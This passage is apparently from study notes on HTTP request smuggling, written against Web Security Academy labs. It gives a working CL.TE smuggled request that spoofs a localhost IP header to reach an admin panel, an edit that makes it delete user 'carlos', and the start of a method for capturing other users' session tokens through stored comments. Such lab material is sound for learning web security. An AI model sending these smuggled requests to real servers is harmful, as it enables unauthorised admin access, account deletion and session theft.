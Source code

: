 
1. The second response should contain "Search results for" followed by the start of a rewritten HTTP request.
2. Make a note of the name of the `X-*-IP` header in the rewritten request, and use it to access the admin panel:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-whatYouFound-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

- Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:
	- change URL in `/admin/delete?username=carlos`

### Capturing other users' requests
If the app contains any kind of functionality that allows you to store and later retrieve textual data:
=>
- you can potentially use this to:
	- capture the contents of other users' requests. 
	  
	- These may include session tokens or other sensitive data submitted by the user.
	- Suitable functions to use as the vehicle for this attack would be:
		- comments, emails, profile descriptions, screen names, and so on.

To perform the attack, you need to:
- smuggle a request that submits data to the storage function, 
	- with the parameter containing the data to store positioned last in the request. 

For example, suppose an app uses the following request to submit a blog post comment:
- which will be stored and displayed on the blog:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

